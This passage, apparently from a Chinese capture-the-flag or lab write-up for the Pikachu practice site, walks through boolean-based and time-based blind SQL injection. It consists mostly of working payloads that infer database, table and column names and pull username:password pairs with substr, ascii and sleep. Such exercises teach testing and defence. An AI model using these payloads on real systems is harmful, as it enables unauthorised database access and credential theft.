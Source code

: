 **猜列名**

```
?name=kobe' and substr((select group_concat(column_name) from information_schema.columns where table_name='member' limit 0,1),4,1)='u'--+
//判断得到列名,建议直接用这种方法，因为可能会遇到null
```

**猜值**

```
?name=kobe' or ascii(substr((select group_concat(username,":",password) from users),1,1))=93--+
//通过ASCII码大小判断得到数据

?name=kobe' or substr((select group_concat(username,":",password) from users),1,1)=']'--+
//判断得到数据
```



### 盲注(base on time)

#### 考点：类似于上一题，学会判断注入

#### 思考

**猜库名长度**

```
?name=kobe' and if(length(database())>1,sleep(3),1) --+

?name=kobe' and if(length(database())=7,sleep(3),1) --+
最后用“=”试出来库名为7位
```

**猜库名**

```
?name=kobe' and if(ascii(substr(database(),1,1))=112,sleep(3),1)--+
//判断得到库名是pikachu
```

**猜表名**

```
?name=kobe' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<120,sleep(3),1) --+

?name=kobe' and if(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,2)='ht',sleep(3),1) --+
//最后一步一步判断表名
```

**猜列名**

```
?name=kobe' and if(substr((select group_concat(column_name) from information_schema.columns where table_name='member' limit 0,1),4,1)='u',sleep(3),1)--+
//判断得到列名,建议直接用这种方法，因为可能会遇到null
```
